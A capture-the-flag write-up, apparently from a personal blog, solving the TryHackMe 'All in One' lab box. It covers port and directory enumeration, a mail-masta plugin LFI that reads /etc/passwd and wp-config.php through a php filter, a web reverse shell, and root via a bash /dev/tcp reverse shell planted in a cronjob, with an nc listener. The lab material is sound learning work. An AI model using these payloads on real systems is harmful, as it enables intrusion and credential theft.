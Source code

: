 +++ 
draft = false
date = 2021-01-12T16:08:20+05:30
title = "All in One TryHackMe Writeup"
description = "This box has many ways to exploit and also a easy box"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","tryhackme","easy_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
#  All_in_One Walkthrough

![](/TryHackMe/All_in_one/BoxImage.png)

### __First Stage : Enumeration

So lets do a nmap scan for open ports

>nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn \<ip>

```
# Nmap 7.91 scan initiated Thu Dec 10 16:31:38 2020 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn 10.10.110.123
Warning: 10.10.110.123 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.110.123
Host is up, received user-set (0.17s latency).
Scanned at 2020-12-10 16:31:38 IST for 1810s
Not shown: 64787 closed ports, 745 filtered ports
Reason: 64787 conn-refused and 745 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.74.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLcG2O5LS7paG07xeOB/4E66h0/DIMR/keWMhbTxlA2cfzaDhYknqxCDdYBc9V3+K7iwduXT9jTFTX0C3NIKsVVYcsLxz6eFX3kUyZjnzxxaURPekEQ0BejITQuJRUz9hghT8IjAnQSTPeA+qBIB7AB+bCD39dgyta5laQcrlo0vebY70Y7FMODJlx4YGgnLce6j+PQjE8dz4oiDmrmBd/BBa9FxLj1bGobjB4CX323sEaXLj9XWkSKbc/49zGX7rhLWcUcy23gHwEHVfPdjkCGPr6oiYj5u6OamBuV/A6hFamq27+hQNh8GgiXSgdgGn/8IZFHZQrnh14WmO8xXW5
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Ww9ui4NQDHA5l+lumRpLsAXHYNk4lkghej9obWBlOwnV+tIDw4mgmuO1C3U/WXRgn0GrESAnMpi1DSxy8t1k=
|   256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAOG6ExdDNH+xAyzd4w1G4E9sCfiiooQhmebQX6nIcH/
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 10 17:01:48 2020 -- 1 IP address (1 host up) scanned in 1809.99 seconds
```

So ports that are open 

* 21
* 22
* 80

So lets visit the website on port 80.

![](/TryHackMe/All_in_one/website1.png)





Since we a website lets do a gobuster scan.


We get this.

![](/TryHackMe/All_in_one/gobuster.png)


The directories are 

* wordpress
* hackathons

Lets visit wordpress


![](/TryHackMe/All_in_one/wordpress.png)


Now lets visit hackathons


![](/TryHackMe/All_in_one/hackathon.png)


if we go to the source code of this page we find 

![](/TryHackMe/All_in_one/sourcecode.png)



Maybe it is encoded in vigenere lets fire up [cyberchef](https://gchq.github.io/CyberChef/) . We get a password but we dont know where it is used .


![](/TryHackMe/All_in_one/cyberchef.png)


Now we can use wpscan to scan the wordpress site

> wpscan --url http://\<ip>

We get interesting plugins.

![](/TryHackMe/All_in_one/plugins.png)


Now after searching in gooogle we get that both are vulnerable plugins . 

Lets try exploiting mail-masta plugin.


###  __Second Stage : Initial Access__

The mail-masta plugin has __[LFI](https://www.exploit-db.com/exploits/40290)__ which we can use to exploit.


We can see the **/etc/passwd** file  using

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Now we want the username and password which can be found in wp-config.php . If we use put directly in the parameter pl we wont get , we need to use php filter to get the config file . Google *"php filter lfi"* you will get results. 

I am using base64 filter .

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

We can get the file in base64 encoded format.

![](/TryHackMe/All_in_one/lfi2.png)


If we decode it we get the username and password.

![](/TryHackMe/All_in_one/password.png)



So lets login and get reverse shell.


![](/TryHackMe/All_in_one/revshell.png)


Use this command to access the edited 404.php file

```BASH
curl http://<ip>/wordpress/wp-content/themes/twentytwenty/404.php 
```

Now we get a shell.


![](/TryHackMe/All_in_one/www-data.png)


Use these commands to upgrade shell.


```BASH
python3 -c"import pty;pty.spawn('/bin/bash')"
#then press CTRL-Z 
stty raw -echo ; fg
#press enter two times
export TERM=screen
```

### __Third Stage : www-data to user__

We run linpeas to see if we can get attack vectors or loopholes.

We see a **cronjob** running by __root__

![](/TryHackMe/All_in_one/linpeas.png)


Then we see port __3306__ open which is __mysql server__

![](/TryHackMe/All_in_one/mysql.png)


And we can find **credentials** for the mysql db


![](/TryHackMe/All_in_one/sqlcreds.png)


So if we go to the /home/elyana directory we see

![](/TryHackMe/All_in_one/hint.png)


So if we search using **find** command 

>find / -type f -user elyana 2>>/dev/null

![](/TryHackMe/All_in_one/elyanapass.png)


And we can see that private.txt has password in it.

Now we can ssh into the machine and get the user flag


![](/TryHackMe/All_in_one/user.png)



### __Fourth Stage : user to root__


Now if we try sudo -l we get this

![](/TryHackMe/All_in_one/sudo.png)


When we were www-data we saw that a cronjob was running , hence we can see if we can use it.

Let's go and cat the script.

![](/TryHackMe/All_in_one/cronjob.png)


Let's edit the script to get a reverse shell

>bash -i >& /dev/tcp/\<vpn_ip>/4444 0>&1


![](/TryHackMe/All_in_one/edited.png)





And start a listener using
>nc -lvnp 4444


Now we get root shell.


![](/TryHackMe/All_in_one/root.png)




